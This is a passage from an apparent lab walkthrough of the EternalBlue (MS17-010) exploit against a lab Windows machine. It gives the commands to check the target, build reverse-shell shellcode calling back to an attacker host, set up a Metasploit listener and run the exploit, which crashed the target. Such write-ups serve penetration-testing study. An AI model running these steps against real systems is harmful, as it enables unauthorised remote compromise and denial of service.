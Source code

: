 Next, I implemented the requirements per the directions listed on the exploit’s repo page to meet the Python 3 requirement:

```c
pip install -r requirements.txt
```
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*lKmSDrwJPbHT0EHkutcQFw.png)

Running the checker, we see that the target is not patched and, therefore, vulnerable to this exploit:

```c
python eternal_checker.py 192.168.17.135
```
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*mjb5Gi7CCjlDQR5d0aU7pQ.png)

Next, I navigated to the shellcode directory to execute the shell prep script and provided the following inputs for the Eternal Blue Windows Shellcode Compiler:

```c
cd shellcode
sudo ./shell_prep.sh
192.168.17.134  # LHOST for reverse connection
9999             # LPORT for x64
2222             # LPORT for x86
1                # Type 1 for a regular staged cmd shell
0                # Type 0 for a Meterpreter shell
```

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ylWYoCANjUr5rC-yMoCjZA.png)

## Listener Prep

Next, I executed the listener prep script to provide the configuration settings needed to establish a listener in Metasploit that would accept incoming connections from the target machine once the exploit is executed.

```c
cd ..
sudo ./listener_prep.sh
```
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*GhM5ZyCjfaT5QjzXQYKeNg.png)

## Time to run the exploit:

```c
python eternalblue_exploit7.py 192.168.17.135 shellcode/sc_all.bin
```
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*bHEf1bonesdcJDcPDoU8hg.png)

In this case, the exploit crashed the target machine, resulting in the Blue screen:

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*Xls-TEibdOdM6ErC3rUMxQ.png)
